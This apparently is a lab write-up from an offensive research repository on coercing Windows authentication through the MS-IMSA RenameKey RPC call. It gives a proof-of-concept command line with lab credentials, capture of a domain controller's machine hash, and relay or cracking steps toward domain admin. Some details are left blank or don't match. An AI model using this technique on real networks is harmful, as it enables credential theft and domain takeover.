 # MS-IMSA - Remote call to RenameKey (opnum 8)

## Summary

+ **Protocol**: [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457)

+ **Protocol UUID**: 70b51430-b6ca-11d0-b9b9-00a0c922e750

+ **Protocol version**: 0.0

+ **SMB Named pipe**: ``

+ **Function name**: [`RenameKey`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/ded41941-940e-4866-a1a8-462b8dde54c1)

+ **Function operation number**: `8`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `` and bind to the desired [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol (with uuid `70b51430-b6ca-11d0-b9b9-00a0c922e750` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-IMSA`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `` This pipe is connected to the protocol [[MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457) and allows to call RPC functions of this protocol. We will then call the remote [`RenameKey`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/ded41941-940e-4866-a1a8-462b8dde54c1) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RenameKey('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
HRESULT RenameKey(
   [in] METADATA_HANDLE hMDHandle,
   [unique, in, string] LPCWSTR pszMDPath,
   [unique, in, string] LPCWSTR pszMDNewName
 );
```

## References

+ Documentation of protocol [MS-IMSA]: Internet Information Services (IIS) IMSAdminBaseW Remote Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/9cd07fff-2cb6-44fb-be98-6f292ae2a457

+ Documentation of function `RenameKey`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-imsa/ded41941-940e-4866-a1a8-462b8dde54c1